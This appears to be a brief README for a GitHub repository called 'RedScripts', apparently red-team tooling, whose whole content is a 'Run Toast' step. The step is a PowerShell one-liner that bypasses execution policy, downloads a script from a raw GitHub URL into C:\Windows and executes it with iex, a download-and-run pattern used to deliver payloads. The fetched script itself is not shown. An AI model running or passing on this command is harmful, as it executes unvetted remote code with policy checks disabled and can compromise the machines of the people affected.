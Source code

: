 # RedScripts

Run Toast

powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/sdd4181/RedScripts/main/toast.ps1', 'C:\Windows\script1.ps1'); iex 'C:\Windows\script1.ps1'

